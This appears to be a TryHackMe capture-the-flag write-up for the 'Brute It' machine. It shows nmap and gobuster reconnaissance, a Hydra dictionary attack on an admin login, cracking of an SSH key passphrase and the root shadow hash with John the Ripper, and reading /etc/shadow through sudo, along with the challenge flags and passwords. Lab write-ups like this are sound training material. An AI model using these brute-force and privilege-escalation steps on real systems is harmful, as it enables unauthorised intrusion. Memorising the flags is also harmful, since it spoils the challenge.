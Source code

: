 # [Brute It CTF] - Writeup

**Platform:** TryHackMe
**Difficulty:** Easy
**Date Completed:** [22.09.2025]  
**Skills Used:** [Password cracking, Privilege escalation]  
**Tools Used:** [John the ripper, Hydra, Gobuster]

## Executive Summary

This writeup demonstrates the complete compromise of the "Brute It" TryHackMe machine through password brute forcing and privilege escalation techniques. Initial reconnaissance revealed a hidden admin login panel that was compromised using Hydra, providing access to an encrypted SSH private key. After cracking the key's passphrase with John the Ripper, SSH access was gained as user "john". Final privilege escalation to root was achieved by exploiting misconfigured sudo permissions to read /etc/shadow and crack the root password hash.

## Initial Reconnaissance

### Port Scanning

We start by running nmap with TCP SYN (-sS) and with information about the services running on the ports (-sV).

```bash
sudo nmap -sS -sV 10.10.213.164
[sudo] Mot de passe de armould :
Starting Nmap 7.80 ( https://nmap.org ) at 2025-09-17 22:34 CEST
Nmap scan report for 10.10.213.164
Host is up (0.082s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.59 seconds
```

This already gave us a lot of information :
How many ports are open ? 2

What version of SSH is running ? OpenSSH 7.6p1

What version of Apache is running ? 2.4.29

Which Linux distribution is running ? Ubuntu

The web server's main page is simply Apache's default page. We are going to try and find hidden directories using gobuster.

```bash
gobuster -w ~/directory-list-2.3-small.txt -u 10.10.213.164

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.213.164/
[+] Threads      : 10
[+] Wordlist     : /home/armould/directory-list-2.3-small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2025/09/17 22:50:48 Starting gobuster
=====================================================
/admin (Status: 301)
Progress: 2299 / 87666 (2.62%)
```

I did not run it until the end because the next question suggests that I should only be looking for one hidden directory.

What is the hidden directory ? /admin

## Vulnerability Analysis

So let's visit this directory ! It is a basic login page with only username and password text fields, as well as a submit button. By inspecting the page, we can easily notice a little comment saying that the username is "admin". I will now try to perform a dictionnary attack on the page using hydra. When entering wrong credentials, the page shows "Username or password invalid". We use this to determine whether the password is correct or not.

```bash
hydra -l admin -P ~/rockyou.txt 10.10.93.17 -V http-form-post '/admin/:user=^USER^&pass=^PASS^:F=invalid'

[80][http-post-form] host: 10.10.93.17   login: admin   password: xavier
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-20 00:47:11
```

We have a result !

What is the user:password of the admin panel ? admin:xavier

If we use these credentials on the admin panel, we can find the web flag : THM{brut3_f0rce_is_e4sy}, and an RSA private key that belongs to John.
I think that the private key is an SSH private key (as we saw that ssh is enabled on the machine).

We are going to use John the ripper to crack it, but first we need to convert the key to a format that it understands. The conversion was a bit of a struggle because of John the ripper's many different versions but I found the right python script :

```bash
python3 ~/john/run/ssh2john.py rsa > rsa.hash
```

And now for the cracking :

```bash
~/john/run/john --wordlist=/home/armould/rockyou.txt rsa.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [MD5/bcrypt-pbkdf/[3]DES/AES 32/64])
Cost 1 (KDF/cipher [0:MD5/AES 1:MD5/[3]DES 2:bcrypt-pbkdf/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 20 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
rockinroll       (rsa)
1g 0:00:00:00 DONE (2025-09-21 12:46) 6.250g/s 454000p/s 454000c/s 454000C/s soulkeeper..rashon
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

What is John's RSA Private Key passphrase ? rockinroll

Here, I first tried to log in directly to the ssh service with this passphrase, without success. Indeed, this is the passphrase to the key that John uses to login, not his direct password. Therefore we need to log in to ssh using this key and passphrase :

```bash
chmod 600 rsa

ssh -i rsa john@10.10.65.55
Enter passphrase for key 'rsa':
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Sep 21 15:20:03 UTC 2025

  System load:  0.08               Processes:           104
  Usage of /:   25.7% of 19.56GB   Users logged in:     0
  Memory usage: 40%                IP address for ens5: 10.10.65.55
  Swap usage:   0%


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106

```

We are in ! And the user flag is : THM{a_password_is_not_a_barrier}

## Privilege Escalation

By using sudo -l, we can see that john is authorised to execute /sys/cat with admin privileges. This makes us able to read /etc/shadow (which should only be accessible to root) and get the hash of the root password :  
root:$6$zdk0.jUm$ Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.

Passwords in /etc/shadow have this structure :$hash_algo$salt$hash. In our case, $6$ means that our hash was made with SHA-512. I copied the hash in a text file named roothash.

```bash
~/john/run/john --wordlist=/home/armould/rockyou.txt roothash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 20 OpenMP threads
Note: Passwords longer than 26 [worst case UTF-8] to 79 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
football         (root)
1g 0:00:00:00 DONE (2025-09-22 20:24) 3.571g/s 9142p/s 9142c/s 9142C/s 123456..hassan
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

What is the root's password? football

Now that we have the root password, we can simply change user :

```bash
su root
Password:
root@bruteit:/home/john# whoami
root
```

Root flag : THM{pr1v1l3g3_3sc4l4t10n}
